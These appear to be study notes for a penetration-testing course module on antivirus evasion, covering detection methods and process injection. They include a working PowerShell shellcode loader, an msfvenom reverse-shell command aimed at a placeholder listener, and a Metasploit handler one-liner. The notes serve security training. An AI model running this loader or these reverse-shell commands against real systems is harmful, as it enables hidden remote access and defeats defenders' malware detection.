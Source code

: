 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Module 14: Antivirus Evasion

## Antivirus Software Key Components and Operations

### Known vs Unknown Threats

### AV Engines and Components

### Detection Methods

* Signature-based Detection
  * Considered a _restricted list technology_. Can be a hash, specific values, strings, etc.
* Heuristic-based Detection
  * Various rules and algorithms determine whether an action is considered malicious. Often by stepping through the instruction set of the binary.
* Behavioral Detection
  * Analyzing the behavior, often by executing the file in an emulated environment, searching for behaviors/actions that are considered malicious.
* Machine Learning Detection
  * Introducing ML algorithms to detect unknown threats by collecting and analyzing additional metadata.

## Bypassing Antivirus Detections

### On-Disk Evasion

Highly effecting AV evasion requires a combination of packers, obfuscators, crypters, anti-reversing, anti-debuffing, virtual machine emulation detection, and so on. Software protectors were designed for legit purposes, like _anti-copy_ but can also be used for AV evasion.

### In-Memory Evasion

_In-Memory Injections_ also known as _PE Injections_ are great for bypassing AV. It doesn't write to disk. \
&#xNAN;_&#x52;emote Process Memory Injection_ - injecting a payload into a valid, non-malicious PE. This can be done via _Windows APIs:_

1. _OpenProcess_ to obtain a handle.
2. _VirtualAllocEx_ to allocate memory in the context of that process.
3. _WriteProcessMemory_ to copy the malicious payload to newly allocated memory.
4. _CreateRemoteThread_ to execute it.

## AV Evasion in Practice

### Testing for AV Evasion

VirusTotal: Submitting samples to see how AV detects it. This provides the sample to the partners though.\
AntiScan.me: Supposedly does not share samples; tests with 30 AVs and has four free scans per day.

### Evading AV with Thread Injection

A basic templated script that performs in-memory injection is shown below, shellcode could be generated via `msfvenom -p windows/shell_reverse_tcp LHOST=your.listener.ip.here LPORT=port -f powershell -v sc`:

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Automating the Process

_**Shellter**_ is a dynamic shellcode injection tool and one of the most popular free tools capable of bypassing AV. Ensure architecture **i386** is added and that **wine32** is installed. Then you can run `shellter`.\
Shellter can run in either _Auto_ or _Manual_ mode.

Manual: The tool will launch the PE we want to use for injection and allow us to manipulate it on a more granular level.\
Auto: The tool will automatically attempt to fully inject the malicious code into the PE.\
Stealth: attempt to restore the execution flow of the PE after our payload has been executed.

Kicking off a meterpreter listener in one line: `msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST your.listener.ip.here;set LPORT port;run;"`
